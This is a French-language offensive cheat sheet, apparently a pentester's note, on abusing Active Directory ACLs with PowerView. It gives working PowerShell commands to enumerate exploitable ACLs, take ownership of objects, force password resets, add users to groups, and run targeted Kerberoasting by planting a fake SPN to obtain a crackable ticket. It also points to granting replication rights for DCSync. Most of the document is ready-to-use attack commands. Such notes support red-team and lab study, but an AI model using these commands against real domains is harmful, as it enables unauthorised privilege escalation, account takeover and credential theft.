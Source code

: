 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs

```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris.

Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)

Windows
```powershell
# Utilisation de credentials alternatifs
$PrivilegedUserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $PrivilegedUserPassword)
# Réinitialisation du password
$newPassword = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $newPassword
```

### GenericWrite

Permet :

- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit
- la modification du script de login pour tenter une exécution de code à distance (au prochain logon)

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll
#### Sur un compte utilisateur
- Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
- L'attaque se nomme "Targetted Kerberoasting".
- Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
- Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```

#### Sur un groupe
- elle permet de s'ajouter comme membre du groupe

#### Sur une OU
- elle permet d'ajouter un controle total sur l'OU et disposer d'un controle totale sur les objets qui sont dedans

### WriteDacl

Permet d'ajouter des DACL sur un compte utilisateur.

Cela peut permettre d'ajouter les permissions `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` et `DS-Replication-Get-Changes-In-Filtered-Set` qui permettent de réaliser une attaque ([[DCSync]])

